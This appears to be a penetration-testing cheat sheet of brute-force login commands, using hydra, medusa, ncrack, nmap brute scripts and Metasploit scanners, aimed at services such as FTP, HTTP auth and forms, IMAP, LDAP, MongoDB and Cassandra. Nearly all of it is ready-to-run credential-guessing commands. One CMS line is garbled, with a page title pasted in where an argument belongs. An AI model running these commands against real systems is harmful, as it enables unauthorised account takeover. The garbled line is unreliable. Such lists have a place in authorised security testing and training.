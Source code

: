 ## Cassandra
```
nmap --script cassandra-brute -p 9160 <IP>
```
## CouchDB
```
msf> use auxiliary/scanner/couchdb/couchdb_login
```
## FTP
```
hydra -l root -P passwords.txt [-t 32] <IP> ftp
ncrack -p 21 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ftp
```
## HTTP Basic Auth
```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
medusa -h <IP> -u <username> -P  <passwords.txt> -M  http -m DIR:/path/to/auth -T 10
```
## HTTP - Post Form
```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
如果是 https ，你可以将 "http-post-form" 替换成"https-post-form"

## HTTP - CMS -- (W)ordpress, (J)oomla or (D)rupal or (M)oodle
cmsmap -f W/J/D/M -u a -p a WordPress.com: Create a Free Website or Blog
```
## IMAP
```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
nmap -sV --script imap-brute -p <PORT> <IP>
```
## IRC
```
nmap -sV --script irc-brute,irc-sasl-brute --script-args userdb=/path/users.txt,passdb=/path/pass.txt -p <PORT> <IP>
```
## ISCSI
```
nmap -sV --script iscsi-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 3260 <IP>
```
## LDAP
```
nmap --script ldap-brute -p 389 <IP>
```
## Mongo
```
nmap -sV --script mongodb-brute -n -p 27017 <IP>
use auxiliary/scanner/mongodb/mongodb_login
```